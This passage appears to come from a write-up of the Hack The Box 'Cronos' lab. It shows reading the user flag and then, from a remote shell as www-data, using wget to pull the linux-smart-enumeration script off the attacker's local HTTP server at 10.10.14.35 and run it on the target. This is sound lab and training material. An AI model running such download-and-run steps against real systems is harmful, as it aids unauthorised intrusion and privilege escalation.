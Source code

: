 ![](/assets/htb-cronos/user_proof.png)

So we can see that the only user on the system is `noulis`, and we can read the `user.txt` flag form their home directory.

Let's change our directory to `/tmp`, and download and run [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration), which will give us a good picture of the system form the `www-data` viewpoint. We can copy it locally to our working directory, start a HTTP server with `python -m SimpleHTTPServer`, and grab the file form the remote shell with `wget http://10.10.14.35:8000/lse.sh`. Once it's on the target, we need to make it executable with `chmod +x lse.sh`, and run it with `./lse.sh -l1`

